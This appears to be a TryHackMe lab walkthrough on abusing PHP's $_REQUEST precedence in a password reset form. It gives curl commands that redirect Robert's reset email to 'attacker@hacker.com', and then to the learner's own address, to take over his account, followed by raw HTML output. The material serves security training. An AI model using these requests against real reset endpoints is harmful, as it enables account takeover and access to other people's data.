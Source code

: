 This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.
Curl Request 1:

           
user@tryhackme$ curl 'http://10.10.235.218/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'

        

We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable $_REQUEST.

The PHP $_REQUEST variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.
Curl Request 2:

           
user@tryhackme$ curl 'http://10.10.235.218/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'

        
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

Curl Request 2 (but using your @acmeitsupport.thm account):

           
user@tryhackme:~$ curl 'http://10.10.235.218/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'

        
```
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$ curl 'http://10.10.235.218/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Acme IT Support - Customer Login</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://pro.fontawesome.com/releases/v5.12.0/css/all.css" integrity="sha384-ekOryaXPbeCpWQNxMwSWVvQ0+1VrStoPJq54shlYhR8HzQgig1v5fas6YgOqLoKz" crossorigin="anonymous">
        <link rel="stylesheet" href="/assets/bootstrap.min.css">
    <link rel="stylesheet" href="/assets/style.css">
</head>
<body>
    <nav class="navbar navbar-inverse navbar-fixed-top">
        <div class="container">
            <div class="navbar-header">
```